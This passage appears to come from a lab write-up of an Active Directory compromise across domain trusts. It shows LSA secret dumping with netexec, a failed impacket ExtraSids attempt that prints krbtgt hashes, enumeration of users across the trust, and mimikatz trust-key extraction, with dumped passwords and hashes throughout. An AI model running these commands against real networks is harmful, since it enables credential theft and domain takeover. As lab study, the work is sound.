SMB         172.16.21.10    445    S021M005         WORK-JUNON\S021M005$:des-cbc-md5:f4d0e5efd5ad70b6
SMB         172.16.21.10    445    S021M005         WORK-JUNON\S021M005$:plain_password_hex:dbc64be1b98f17a63bb20856f040a164f548ab1c7020bf883bf0ffbdd12897e231a8111cd2051eba1e3a6829ab227779ad3ff9bc31c3f469214dea5b9130980c4db49da67e89a28402aa19af0acf9a96759037fe55960736c50fa00dbc9b51055011f1a690ef3432482d5b538f6069b8ad3d0cadf739c62dd5eaa43772358b1a799630f0ff82e57a792b46496d7161bea50cd7536ee0e40252df2fad9addf3104182e9e5764e3a2fc308df3de8e775a100c35e06057b4f540fc4f45154313b37d0f983f1a5499eec9d5e9130d7ce7ae835ff6c484f3e09878097609b6a5a6206e6548328e9eac918149075ced4f25dc2
SMB         172.16.21.10    445    S021M005         WORK-JUNON\S021M005$:aad3b435b51404eeaad3b435b51404ee:03e5e5dcbfe97c621e138654d90cf9fe:::
SMB         172.16.21.10    445    S021M005         WORK-JUNON\dom-fstewart:HO4_+eWWPd66K9
SMB         172.16.21.10    445    S021M005         dpapi_machinekey:0x9c23f090343070abed76c8c3903c517a54401527
dpapi_userkey:0x40572e77ad39ca0d8463ec7fd73bf250fbcdee50
SMB         172.16.21.10    445    S021M005         [+] Dumped 7 LSA secrets to /home/user/.nxc/logs/lsa/172.16.21.10_None_2026-03-30_180642.secrets and /home/user/.nxc/logs/lsa/172.16.21.10_None_2026-03-30_180642.cached
SMB         172.16.21.10    445    S021M005         [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.21.10    445    S021M005         [+] Got 20 decrypted masterkeys. Looting secrets...
                                                  
```

Here I tried to perform a ExtraSids attack but it is not working unforutnately:

```bash
└─$ impacket-raiseChild work.junon.vl/Administrator -hashes :b976dde1bcbbf31cbdab60d2a5a5449d -target-exec 172.16.21.222
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Raising child domain work.junon.vl
[*] Forest FQDN is: work.junon.vl
[*] Raising work.junon.vl to work.junon.vl
[*] work.junon.vl Enterprise Admin SID is: S-1-5-21-1112787665-3955584987-2510362858-519
[*] Getting credentials for work.junon.vl
work.junon.vl/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bc6cfd11862244676f00002ed3ba71b8:::
work.junon.vl/krbtgt:aes256-cts-hmac-sha1-96s:a7aae0cdb2f094f98521403a9cf04d420a4b97a05c72bc7cee6985d590cfe9d1
[-] Kerberos SessionError: KDC_ERR_TGT_REVOKED(TGT has been revoked)

```

# Internal network enumeration

Now my goal is to gain a a foothold into the EU domain and I can see that the new subnet isn't showing much more than what I already have:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Wutai]
└─$ netexec winrm 172.16.22.0/24
WINRM       172.16.22.10    5985   S021M005         [*] Windows Server 2022 Build 20348 (name:S021M005) (domain:work.junon.vl) 
WINRM       172.16.22.200   5985   S022M100         [*] Windows Server 2022 Build 20348 (name:S022M100) (domain:it.wutai.vl) 
WINRM       172.16.22.222   5985   S021M200         [*] Windows Server 2022 Build 20348 (name:S021M200) (domain:eu.junon.vl) 
WINRM       172.16.22.223   5985   S021M215         [*] Windows Server 2022 Build 20348 (name:S021
```

Since. there is a bi-directional trust I can use my current user to request all the users on the other side:

```bash
└─$ netexec smb 172.16.21.222 -d work.junon.vl -u dom-fstewart -p HO4_+eWWPd66K9 --users 
SMB         172.16.21.222   445    S021M200         [*] Windows Server 2022 Build 20348 x64 (name:S021M200) (domain:eu.junon.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.21.222   445    S021M200         [+] work.junon.vl\dom-fstewart:HO4_+eWWPd66K9 
SMB         172.16.21.222   445    S021M200         -Username-                    -Last PW Set-       -BadPW- -Description-                                    
SMB         172.16.21.222   445    S021M200         Administrator                 2023-03-27 22:20:30 0       Built-in account for administering the computer/domain
SMB         172.16.21.222   445    S021M200         Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         172.16.21.222   445    S021M200         krbtgt                        2023-03-28 19:50:03 0       Key Distribution Center Service Account 
SMB         172.16.21.222   445    S021M200         Bruce.Gardner                 2023-03-28 20:03:20 0        
SMB         172.16.21.222   445    S021M200         Gerald.Rees                   2023-03-28 20:03:20 0        
SMB         172.16.21.222   445    S021M200         Jason.Bailey                  2023-03-28 20:03:20 0        
SMB         172.16.21.222   445    S021M200         Oliver.Day                    2023-03-28 20:03:20 0        
SMB         172.16.21.222   445    S021M200         Amber.Francis                 2023-03-28 20:03:20 0        
SMB         172.16.21.222   445    S021M200         Adrian.Thomas                 2023-03-28 20:03:21 0        
SMB         172.16.21.222   445    S021M200         Malcolm.Harvey                2023-03-28 20:03:21 0        
SMB         172.16.21.222   445    S021M200         Alex.Cole                     2023-03-28 20:03:21 0        
SMB         172.16.21.222   445    S021M200         Rosemary.Lee                  2023-03-28 20:03:21 0        
SMB         172.16.21.222   445    S021M200         Teresa.Shah                   2023-03-28 20:03:21 0        
SMB         172.16.21.222   445    S021M200         Glenn.Craig                   2023-03-28 20:03:21 0        
SMB         172.16.21.222   445    S021M200         Carol.Smith                   2023-03-28 20:03:21 0        
SMB         172.16.21.222   445    S021M200         Leslie.Wilson                 2023-03-28 20:03:22 0        
SMB         172.16.21.222   445    S021M200         Dylan.Wright                  2023-03-28 20:03:22 0        
SMB         172.16.21.222   445    S021M200         Bruce.Smith                   2023-03-28 20:03:22 0        
SMB         172.16.21.222   445    S021M200         Frances.Mahmood               2023-03-28 20:03:22 0        
SMB         172.16.21.222   445    S021M200         David.Griffiths               2023-03-28 20:03:22 0        
SMB         172.16.21.222   445    S021M200         Mitchell.Herbert              2023-03-28 20:03:22 0        
SMB         172.16.21.222   445    S021M200         Deborah.Jones                 2023-03-28 20:03:22 0        
SMB         172.16.21.222   445    S021M200         Deborah.Hamilton              2023-03-28 20:03:23 0        
SMB         172.16.21.222   445    S021M200         Kirsty.Green                  2023-03-28 20:03:23 0        
SMB         172.16.21.222   445    S021M200         Scott.Dean                    2023-03-28 20:03:23 0        
SMB         172.16.21.222   445    S021M200         Ross.Hill                     2023-03-28 20:03:23 0        
SMB         172.16.21.222   445    S021M200         June.Carter                   2023-03-28 20:03:23 0        
SMB         172.16.21.222   445    S021M200         Jonathan.Cunningham           2023-03-28 20:03:23 0        
SMB         172.16.21.222   445    S021M200         Jade.Morgan                   2023-03-28 20:03:23 0        
SMB         172.16.21.222   445    S021M200         Carly.Rowley                  2023-03-28 20:03:24 0        
SMB         172.16.21.222   445    S021M200         Victor.Wilson                 2023-03-28 20:03:24 0        
SMB         172.16.21.222   445    S021M200         Sally.Hughes                  2023-03-28 20:03:24 0        
SMB         172.16.21.222   445    S021M200         Alexander.Lewis               2023-03-28 20:03:24 0        
SMB         172.16.21.222   445    S021M200         Duncan.Atkins                 2023-03-28 20:03:24 0        
SMB         172.16.21.222   445    S021M200         Judith.Wells                  2023-03-28 20:03:24 0        
SMB         172.16.21.222   445    S021M200         Mathew.McCarthy               2023-03-28 20:03:24 0        
SMB         172.16.21.222   445    S021M200         Maria.Wilson                  2023-03-28 20:03:25 0        
SMB         172.16.21.222   445    S021M200         Sheila.Dyer                   2023-03-28 20:03:25 0        
SMB         172.16.21.222   445    S021M200         Kieran.Johnson                2023-03-28 20:03:25 0        
SMB         172.16.21.222   445    S021M200         Clifford.Begum                2023-03-28 20:03:25 0        
SMB         172.16.21.222   445    S021M200         Garry.Armstrong               2023-03-28 20:03:25 0        
SMB         172.16.21.222   445    S021M200         Emily.Steele                  2023-03-28 20:03:25 0        
SMB         172.16.21.222   445    S021M200         Abigail.Cox                   2023-03-28 20:03:26 0        
SMB         172.16.21.222   445    S021M200         Philip.Woods                  2023-03-28 20:03:26 0        
SMB         172.16.21.222   445    S021M200         Lee.Cox                       2023-03-28 20:03:26 0        
SMB         172.16.21.222   445    S021M200         Molly.Mitchell                2023-03-28 20:03:26 0        
SMB         172.16.21.222   445    S021M200         Stanley.Williams              2023-03-28 20:03:26 0        
SMB         172.16.21.222   445    S021M200         Glen.Cooke                    2023-03-28 20:03:26 0        
SMB         172.16.21.222   445    S021M200         Arthur.Brown                  2023-03-28 20:03:26 0        
SMB         172.16.21.222   445    S021M200         Philip.Houghton               2023-03-28 20:03:27 0        
SMB         172.16.21.222   445    S021M200         Albert.Freeman                2023-03-28 20:03:27 0        
SMB         172.16.21.222   445    S021M200         Glen.Barry                    2023-03-28 20:03:27 0        
SMB         172.16.21.222   445    S021M200         Dylan.Gibson                  2023-03-28 20:03:27 0        
SMB         172.16.21.222   445    S021M200         Julian.Collins                2023-03-28 20:03:27 0        
SMB         172.16.21.222   445    S021M200         Jake.Lewis                    2023-03-28 20:03:27 0        
SMB         172.16.21.222   445    S021M200         Glen.Murray                   2023-03-28 20:03:28 0        
SMB         172.16.21.222   445    S021M200         Teresa.Begum                  2023-03-28 20:03:28 0        
SMB         172.16.21.222   445    S021M200         Vincent.Smith                 2023-03-28 20:03:28 0        
SMB         172.16.21.222   445    S021M200         Hilary.Harding                2023-03-28 20:03:28 0        
SMB         172.16.21.222   445    S021M200         Francesca.Woods               2023-03-28 20:03:28 0        
SMB         172.16.21.222   445    S021M200         Howard.Wood                   2023-03-28 20:03:28 0        
SMB         172.16.21.222   445    S021M200         Carl.Young                    2023-03-28 20:03:28 0        
SMB         172.16.21.222   445    S021M200         Ian.Clarke                    2023-03-28 20:03:29 0        
SMB         172.16.21.222   445    S021M200         Leon.Roberts                  2023-03-28 20:03:29 0        
SMB         172.16.21.222   445    S021M200         Michael.Johnson               2023-03-28 20:03:29 0        
SMB         172.16.21.222   445    S021M200         Sarah.McDonald                2023-03-28 20:03:29 0        
SMB         172.16.21.222   445    S021M200         John.Hodgson                  2023-03-28 20:03:29 0        
SMB         172.16.21.222   445    S021M200         Paige.Smith                   2023-03-28 20:03:30 0        
SMB         172.16.21.222   445    S021M200         Ross.Marshall                 2023-03-28 20:03:31 0        
SMB         172.16.21.222   445    S021M200         Lesley.Brooks                 2023-03-28 20:03:31 0        
SMB         172.16.21.222   445    S021M200         Grace.Kirby                   2023-03-28 20:03:31 0        
SMB         172.16.21.222   445    S021M200         Shaun.Young                   2023-03-28 20:03:31 0        
SMB         172.16.21.222   445    S021M200         Kate.Mann                     2023-03-28 20:03:31 0        
SMB         172.16.21.222   445    S021M200         Kim.Potter                    2023-03-28 20:03:31 0        
SMB         172.16.21.222   445    S021M200         Amelia.Kirby                  2023-03-28 20:03:32 0        
SMB         172.16.21.222   445    S021M200         Tina.Smith                    2023-03-28 20:03:32 0        
SMB         172.16.21.222   445    S021M200         Elliot.Rees                   2023-03-28 20:03:32 0        
SMB         172.16.21.222   445    S021M200         Cheryl.Hopkins                2023-03-28 20:03:32 0        
SMB         172.16.21.222   445    S021M200         Sandra.Simpson                2023-03-28 20:03:32 0        
SMB         172.16.21.222   445    S021M200         Owen.Barker                   2023-03-28 20:03:32 0        
SMB         172.16.21.222   445    S021M200         Francis.Myers                 2023-03-28 20:03:32 0        
SMB         172.16.21.222   445    S021M200         Sean.Harrison                 2023-03-28 20:03:33 0        
SMB         172.16.21.222   445    S021M200         Gemma.Wilson                  2023-03-28 20:03:33 0        
SMB         172.16.21.222   445    S021M200         Allan.Stevenson               2023-03-28 20:03:33 0        
SMB         172.16.21.222   445    S021M200         Glenn.Gregory                 2023-03-28 20:03:33 0        
SMB         172.16.21.222   445    S021M200         Maria.Clarke                  2023-03-28 20:03:33 0        
SMB         172.16.21.222   445    S021M200         Shane.Clements                2023-03-28 20:03:33 0        
SMB         172.16.21.222   445    S021M200         Naomi.Brown                   2023-03-28 20:03:34 0        
SMB         172.16.21.222   445    S021M200         Kathleen.Potter               2023-03-28 20:03:34 0        
SMB         172.16.21.222   445    S021M200         Kerry.Smith                   2023-03-28 20:03:34 0        
SMB         172.16.21.222   445    S021M200         Andrea.Hewitt                 2023-03-28 20:03:34 0        
SMB         172.16.21.222   445    S021M200         Norman.Ward                   2023-03-28 20:03:34 0        
SMB         172.16.21.222   445    S021M200         Harry.Butler                  2023-03-28 20:03:34 0        
SMB         172.16.21.222   445    S021M200         Michael.Clarke                2023-03-28 20:03:34 0        
SMB         172.16.21.222   445    S021M200         Kenneth.Brennan               2023-03-28 20:03:35 0        
SMB         172.16.21.222   445    S021M200         Kieran.Bennett                2023-03-28 20:03:35 0        
SMB         172.16.21.222   445    S021M200         Amber.Ward                    2023-03-28 20:03:35 0        
SMB         172.16.21.222   445    S021M200         Amber.Johnson                 2023-03-28 20:03:35 0        
SMB         172.16.21.222   445    S021M200         Lynda.Potts                   2023-03-28 20:03:35 0        
SMB         172.16.21.222   445    S021M200         Mohamed.Rowley                2023-03-28 20:03:35 0        
SMB         172.16.21.222   445    S021M200         Annette.Ryan                  2023-03-28 20:03:35 0        
SMB         172.16.21.222   445    S021M200         Jacob.Brennan                 2023-03-28 20:03:36 0        
SMB         172.16.21.222   445    S021M200         Philip.Thomas                 2023-03-28 20:03:36 0        
SMB         172.16.21.222   445    S021M200         Ricky.Burton                  2023-03-28 20:03:36 0        
SMB         172.16.21.222   445    S021M200         Albert.Clark                  2023-03-28 20:03:36 0        
SMB         172.16.21.222   445    S021M200         Amber.Doyle                   2023-03-28 20:03:36 0        
SMB         172.16.21.222   445    S021M200         Deborah.Hopkins               2023-03-28 20:03:36 0        
SMB         172.16.21.222   445    S021M200         Jessica.Kirk                  2023-03-28 20:03:36 0        
SMB         172.16.21.222   445    S021M200         Kate.Lewis                    2023-03-28 20:03:37 0        
SMB         172.16.21.222   445    S021M200         Zoe.Thomas                    2023-03-28 20:03:37 0        
SMB         172.16.21.222   445    S021M200         Karl.Holmes                   2023-03-28 20:03:37 0        
SMB         172.16.21.222   445    S021M200         Frederick.Jenkins             2023-03-28 20:03:37 0        
SMB         172.16.21.222   445    S021M200         Patrick.Rogers                2023-03-28 20:03:37 0        
SMB         172.16.21.222   445    S021M200         Helen.Lynch                   2023-03-28 20:03:37 0        
SMB         172.16.21.222   445    S021M200         Lucy.Williams                 2023-03-28 20:03:37 0        
SMB         172.16.21.222   445    S021M200         Justin.Sanders                2023-03-28 20:03:38 0        
SMB         172.16.21.222   445    S021M200         Dylan.Nicholls                2023-03-28 20:03:38 0        
SMB         172.16.21.222   445    S021M200         Henry.Turnbull                2023-03-28 20:03:38 0        
SMB         172.16.21.222   445    S021M200         Anna.Collins                  2023-03-28 20:03:38 0        
SMB         172.16.21.222   445    S021M200         Mohammad.Freeman              2023-03-28 20:03:38 0        
SMB         172.16.21.222   445    S021M200         Sean.Herbert                  2023-03-28 20:03:38 0        
SMB         172.16.21.222   445    S021M200         Kirsty.Bennett                2023-03-28 20:03:38 0        
SMB         172.16.21.222   445    S021M200         Jeremy.Oliver                 2023-03-28 20:03:39 0        
SMB         172.16.21.222   445    S021M200         Philip.Waters                 2023-03-28 20:03:39 0        
SMB         172.16.21.222   445    S021M200         John.Butler                   2023-03-28 20:03:39 0        
SMB         172.16.21.222   445    S021M200         Terence.Young                 2023-03-28 20:03:39 0        
SMB         172.16.21.222   445    S021M200         Kimberley.Murphy              2023-03-28 20:03:39 0        
SMB         172.16.21.222   445    S021M200         Carolyn.Kelly                 2023-03-28 20:03:39 0        
SMB         172.16.21.222   445    S021M200         Toby.Patel                    2023-03-28 20:03:39 0        
SMB         172.16.21.222   445    S021M200         Barry.Roberts                 2023-03-28 20:03:40 0        
SMB         172.16.21.222   445    S021M200         Paige.Miah                    2023-03-28 20:03:40 0        
SMB         172.16.21.222   445    S021M200         Paula.Pearce                  2023-03-28 20:03:40 0        
SMB         172.16.21.222   445    S021M200         Janet.Fraser                  2023-03-28 20:03:40 0        
SMB         172.16.21.222   445    S021M200         Adam.Hill                     2023-03-28 20:03:40 0        
SMB         172.16.21.222   445    S021M200         Georgina.Cartwright           2023-03-28 20:03:40 0        
SMB         172.16.21.222   445    S021M200         Antony.Edwards                2023-03-28 20:03:41 0        
SMB         172.16.21.222   445    S021M200         Denise.Jackson                2023-03-28 20:03:41 0        
SMB         172.16.21.222   445    S021M200         Thomas.Brooks                 2023-03-28 20:03:41 0        
SMB         172.16.21.222   445    S021M200         Charles.Gardiner              2023-03-28 20:03:41 0        
SMB         172.16.21.222   445    S021M200         Wendy.Green                   2023-03-28 20:03:41 0        
SMB         172.16.21.222   445    S021M200         Mary.Clarke                   2023-03-28 20:03:41 0        
SMB         172.16.21.222   445    S021M200         Darren.Smith                  2023-03-28 20:03:41 0        
SMB         172.16.21.222   445    S021M200         Melanie.Iqbal                 2023-03-28 20:03:42 0        
SMB         172.16.21.222   445    S021M200         Leonard.Holloway              2023-03-28 20:03:42 0        
SMB         172.16.21.222   445    S021M200         Julian.Coleman                2023-03-28 20:03:42 0        
SMB         172.16.21.222   445    S021M200         Albert.Lee                    2023-03-28 20:03:42 0        
SMB         172.16.21.222   445    S021M200         Philip.Owen                   2023-03-28 20:03:42 0        
SMB         172.16.21.222   445    S021M200         Wayne.King                    2023-03-28 20:03:42 0        
SMB         172.16.21.222   445    S021M200         Carl.Bell                     2023-03-28 20:03:42 0        
SMB         172.16.21.222   445    S021M200         Geoffrey.Knight               2023-03-28 20:03:43 0        
SMB         172.16.21.222   445    S021M200         Julian.Evans                  2023-03-28 20:03:43 0        
SMB         172.16.21.222   445    S021M200         Marie.O'Brien                 2023-03-28 20:03:43 0        
SMB         172.16.21.222   445    S021M200         Janet.Buckley                 2023-03-28 20:03:43 0        
SMB         172.16.21.222   445    S021M200         Craig.Brown                   2023-03-28 20:03:43 0        
SMB         172.16.21.222   445    S021M200         Tony.Williams                 2023-03-28 20:03:43 0        
SMB         172.16.21.222   445    S021M200         Natalie.Middleton             2023-03-28 20:03:44 0        
SMB         172.16.21.222   445    S021M200         Kenneth.Jones                 2023-03-28 20:03:44 0        
SMB         172.16.21.222   445    S021M200         Jamie.Walton                  2023-03-28 20:03:44 0        
SMB         172.16.21.222   445    S021M200         Neil.Parker                   2023-03-28 20:03:44 0        
SMB         172.16.21.222   445    S021M200         Mandy.Townsend                2023-03-28 20:03:44 0        
SMB         172.16.21.222   445    S021M200         Sandra.Watts                  2023-03-28 20:03:44 0        
SMB         172.16.21.222   445    S021M200         Lauren.Lawrence               2023-03-28 20:03:44 0        
SMB         172.16.21.222   445    S021M200         Rhys.Rees                     2023-03-28 20:03:45 0        
SMB         172.16.21.222   445    S021M200         Donald.Bolton                 2023-03-28 20:03:45 0        
SMB         172.16.21.222   445    S021M200         Brandon.Reynolds              2023-03-28 20:03:45 0        
SMB         172.16.21.222   445    S021M200         Kate.Phillips                 2023-03-28 20:03:45 0        
SMB         172.16.21.222   445    S021M200         Gavin.Bentley                 2023-03-28 20:03:45 0        
SMB         172.16.21.222   445    S021M200         Jane.Jackson                  2023-03-28 20:03:45 0        
SMB         172.16.21.222   445    S021M200         Connor.Jones                  2023-03-28 20:03:45 0        
SMB         172.16.21.222   445    S021M200         Barbara.Fitzgerald            2023-03-28 20:03:46 0        
SMB         172.16.21.222   445    S021M200         Denise.Barton                 2023-03-28 20:03:46 0        
SMB         172.16.21.222   445    S021M200         Sam.Rose                      2023-03-28 20:03:46 0        
SMB         172.16.21.222   445    S021M200         Jeremy.Hamilton               2023-03-28 20:03:46 0        
SMB         172.16.21.222   445    S021M200         Kelly.Carroll                 2023-03-28 20:03:46 0        
SMB         172.16.21.222   445    S021M200         Ruth.Smith                    2023-03-28 20:03:46 0        
SMB         172.16.21.222   445    S021M200         Kim.Young                     2023-03-28 20:03:46 0        
SMB         172.16.21.222   445    S021M200         Paul.Ryan                     2023-03-28 20:03:47 0        
SMB         172.16.21.222   445    S021M200         Kerry.Forster                 2023-03-28 20:03:47 0        
SMB         172.16.21.222   445    S021M200         Gareth.Campbell               2023-03-28 20:03:47 0        
SMB         172.16.21.222   445    S021M200         Carolyn.Brown                 2023-03-28 20:03:47 0        
SMB         172.16.21.222   445    S021M200         Stanley.James                 2023-03-28 20:03:47 0        
SMB         172.16.21.222   445    S021M200         Gavin.Dunn                    2023-03-28 20:03:47 0        
SMB         172.16.21.222   445    S021M200         Clare.West                    2023-03-28 20:03:48 0        
SMB         172.16.21.222   445    S021M200         Adrian.Burton                 2023-03-28 20:03:48 0        
SMB         172.16.21.222   445    S021M200         Mandy.Clayton                 2023-03-28 20:03:48 0        
SMB         172.16.21.222   445    S021M200         Ross.Williams                 2023-03-28 20:03:48 0        
SMB         172.16.21.222   445    S021M200         Damian.Taylor                 2023-03-28 20:03:48 0        
SMB         172.16.21.222   445    S021M200         Ricky.Yates                   2023-03-28 20:03:48 0        
SMB         172.16.21.222   445    S021M200         Stanley.Turner                2023-03-28 20:03:48 0        
SMB         172.16.21.222   445    S021M200         Clifford.Harvey               2023-03-28 20:03:49 0        
SMB         172.16.21.222   445    S021M200         Fiona.Parker                  2023-03-28 20:03:49 0        
SMB         172.16.21.222   445    S021M200         Tracy.Singh                   2023-03-28 20:03:49 0        
SMB         172.16.21.222   445    S021M200         Danielle.Blake                2023-03-28 20:03:49 0        
SMB         172.16.21.222   445    S021M200         Donna.Taylor                  2023-03-28 20:03:49 0        
SMB         172.16.21.222   445    S021M200         Stephen.Bond                  2023-03-28 20:03:49 0        
SMB         172.16.21.222   445    S021M200         Hugh.Davies                   2023-03-28 20:03:50 0        
SMB         172.16.21.222   445    S021M200         Jean.Brown                    2023-03-28 20:03:50 0        
SMB         172.16.21.222   445    S021M200         Hilary.Robinson               2023-03-28 20:03:50 0        
SMB         172.16.21.222   445    S021M200         Colin.Robinson                2023-03-28 20:03:50 0        
SMB         172.16.21.222   445    S021M200         Ruth.Patel                    2023-03-28 20:03:50 0        
SMB         172.16.21.222   445    S021M200         Garry.Smith                   2023-03-28 20:03:50 0        
SMB         172.16.21.222   445    S021M200         Denise.Harris                 2023-03-28 20:03:50 0        
SMB         172.16.21.222   445    S021M200         Judith.Johnson                2023-03-28 20:03:51 0        
SMB         172.16.21.222   445    S021M200         svc_backup                    2023-03-29 17:18:18 0        
SMB         172.16.21.222   445    S021M200         sa-kmorris                    2023-03-29 17:42:01 0        
SMB         172.16.21.222   445    S021M200         sa-kyoung                     2023-03-29 17:42:40 0        
SMB         172.16.21.222   445    S021M200         dom-aclark                    2023-03-29 17:44:03 0        
SMB         172.16.21.222   445    S021M200         dom-alee                      2023-03-29 17:44:40 0        
SMB         172.16.21.222   445    S021M200         sa-dwest                      2023-03-31 15:05:24 0        
SMB         172.16.21.222   445    S021M200         svc_adm                       2023-04-04 16:24:01 0        
SMB         172.16.21.222   445    S021M200         [*] Enumerated 210 local users: EU-JUNON

```

And since this is not enought I will patch the trust account and gain access to  low-privilege account on the other side:

```bash
evil-winrm-py PS C:\temp> ./mimikatz.exe "lsadump::trust /patch" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::trust /patch

Current domain: WORK.JUNON.VL (WORK-JUNON / S-1-5-21-1112787665-3955584987-2510362858)

Domain: EU.JUNON.VL (EU-JUNON / S-1-5-21-2634976785-1424521755-791916841)
 [  In ] WORK.JUNON.VL -> EU.JUNON.VL
    * 3/30/2026 9:25:43 PM - CLEAR   - 4e 8d 69 82 aa 77 4c c6 0e 27 3e 0c d3 5b 30 ad 2e 4e 8b 61 03 32 be d4 88 df 91 4c 9f 25 15 b5 35 e2 d7 86 35 e7 56 7e 17 37 d9 9e 6c 84 df b2 5c da 93 4f 45 1a c8 86 d9 13 2f c6 78 cc a0 75 eb ac 63 24 39 b6 e1 83 bf 57 cf f5 20 67 32 df 64 97 ad 33 98 07 d3 cc e4 6c 91 77 9d 37 aa b6 cb 9e 49 87 dc e2 f3 35 24 b5 e0 3c 9e c7 3d a5 8d e5 ca b6 44 22 31 67 c9 7c 33 97 52 b4 f4 8e 53 ea 2b b3 8e f3 e6 c3 35 6c e4 92 8f 77 ae 41 a6 44 18 59 85 90 38 39 ec 4f df 59 93 e7 02 b2 5c 63 e2 c8 6e 7d 76 cd 6a 35 19 72 82 44 b5 c3 a9 5a 22 16 c7 fe 04 37 0d 3a 94 07 96 ce c9 3e 5a d3 b9 cc de 08 1e f8 33 5f dc 5a 35 21 78 e5 52 d6 51 54 c5 6d c9 e2 78 63 5a 96 51 ca 07 7b 9b 58 46 eb d2 29 5e e7 9a f8 41 ab 94 de 85 e4 
    * aes256_hmac       af1e669fccbbb7bd5ae4eb242d784b5ada0c2def2b575a31f75c59ef915bd1bb
    * aes128_hmac       b9264a6fd5ca4abf2f4eca55415a00bd
    * rc4_hmac_nt       bced6fc7686736c73150d8760870187c

 [ Out ] EU.JUNON.VL -> WORK.JUNON.VL
    * 3/30/2026 9:11:03 PM - CLEAR   - 6c f1 2f f2 b0 0d 87 4c 81 b8 e1 6a d5 26 c9 f3 24 ad 1b 16 76 a1 c5 38 33 c6 fb d3 15 d3 8a 86 a0 51 7e c2 92 ae d7 53 ba 8f 1f c1 60 ff a6 6d fd d5 fd a6 06 ca 41 13 bb 50 99 4b 84 43 b7 fe e5 6e 43 38 85 e7 f4 26 8a 39 40 cf 61 ac 99 2a 8f 67 66 e9 f4 97 ec eb bd 02 2e 7d e2 87 23 ae de f8 ae 91 01 67 2b f8 6d c1 4b 57 4a 21 06 43 a3 0a 97 a7 96 9e 7a c8 ab 9a 09 72 6f c4 0f 58 a9 c1 1b ff f0 fe 4f 91 69 5e 17 3a ee 6a 02 5f 5b 9b 6a 06 a6 8b 85 a4 9f bf 2a af 1e 8e 88 3a 11 fc 61 ea be c5 ac ed 88 75 b4 63 64 2a 79 2d 22 47 26 d2 2f e3 c5 a5 03 d1 8a 5e 8a 27 e4 d4 20 59 83 41 61 b1 00 42 6c 4f 15 5f 81 4c 6a 40 be 34 f0 a9 35 7c 80 ac 3a 0c 0c 70 e9 46 28 9e 69 a2 25 e1 41 80 c5 9a 02 4b 51 ad 73 a5 f5 3e 
    * aes256_hmac       c7f17caa19a1ee19407a81ce3e3878c71f71ae68044af333b209ba7e2cfb5bf1
    * aes128_hmac       11e9825b7b4f2dde513f80a74c2646b3
    * rc4_hmac_nt       17526bf72289fb5ecf2e4f5d92ea8bdd

 [ In-1] WORK.JUNON.VL -> EU.JUNON.VL
    * 11/19/2025 5:09:26 AM - CLEAR   - fe dc 9b 94 02 3e 4e fd 08 a6 53 86 e3 c9 2b 47 c9 b4 0a a7 18 bb 53 70 34 a1 0e c8 6f 19 96 16 3e 2b 60 91 bd b5 57 19 75 04 73 d0 e6 e9 30 42 3b e4 bc a8 71 d8 70 01 52 f9 3c 70 43 0b ed d9 e8 17 1e 0f c8 16 56 26 a0 b1 b9 11 6a 63 7f 67 88 65 15 3b e9 2b 4d 82 cc 15 c4 85 02 e8 d5 5f 98 f2 5d c6 37 08 2e b4 e1 2e 45 4c 81 da c6 fc aa 5c 20 9a 80 b4 fa 04 9e 4c b9 96 f0 22 46 f9 8b 87 0e df ff 50 d7 1b f2 c5 6e 99 e3 d1 7d 76 7f ae 0b bf ec 4e 53 15 34 94 16 e6 c3 e0 4e 34 e2 eb 1f 55 55 40 f5 6f 16 ce 1b 1e 15 7b be 6e 63 17 6f 8a 23 93 25 4c de 50 54 59 ee 05 0f ce a0 b3 e5 1a 10 22 e1 fe a3 7e 28 7d 18 05 29 ce c4 d8 ac 10 b3 05 ca f7 0e 8a 40 4c f5 5d 80 07 60 90 83 78 7c e1 2b 3b a7 a3 96 57 06 54 12 e6 
    * aes256_hmac       f7c4230296786c10e0743d3497f8bccd63eef264aad0dcb331b13eb572db1cdb
    * aes128_hmac       0ac889dd47a2cbaa5f4eab82acd75cd8
    * rc4_hmac_nt       3e7188a0b52edfe0bb4c802cb793710e

 [Out-1] EU.JUNON.VL -> WORK.JUNON.VL
    * 3/30/2026 9:11:03 PM - CLEAR   - 60 2e 2e 51 c2 c1 86 fd d0 7e ab 14 a4 ff be 21 4f af 4b 5f b8 2f fb 70 a5 62 38 f2 4f f4 5f 73 5b 73 5e 25 3a 51 25 a5 60 4c 27 fe 29 ce f1 3a e5 da 02 21 3f 9c 1f 14 4b 37 31 54 9d 5d 45 3f 9a 69 9e 6b 6a f2 7e ba cb fd 34 5c fb 7e d3 5d 67 16 46 50 de 42 ef ce ac 21 e9 17 e7 00 70 a1 7f d7 ad 85 72 7c 3b 9a 88 d6 48 75 cb 18 f8 3f 0b 01 8e 4c c0 f8 e2 32 a8 1a 94 35 c3 6a 10 40 c0 75 90 e2 de 83 2a d7 14 e5 c6 af 73 d6 1d 98 a5 ce 03 42 85 0a 80 f5 9b 6b 73 61 b1 b3 c3 44 f6 ce 21 b3 09 dd 9e 8c 23 bd 02 a2 89 28 60 ef bb e1 50 c3 b9 82 38 fc a5 a7 57 49 c5 3a 4f 4b 2b 62 dd 70 da fc 17 df 64 82 f2 3c e7 99 51 84 f4 0e 29 c3 b7 b6 a2 45 e1 25 c0 1c 18 16 75 1a a2 74 30 d2 da 84 65 78 a5 11 85 f1 43 3e e6 9e 
    * aes256_hmac       97d99f48dee035a3289d73493edf7438b38d7e59ab8a8a38aa05d15e725ded60
    * aes128_hmac       ab42aa904a9dc7ea151b07bc39275a45
    * rc4_hmac_nt       408d59a6ade800d70b02a887b3be8714


mimikatz(commandline) # exit
Bye!
evil-winrm-py PS C:\temp>

```

But this is not needed as I knew it was possible to use my current domain to enumerate but i always failed:

```bash
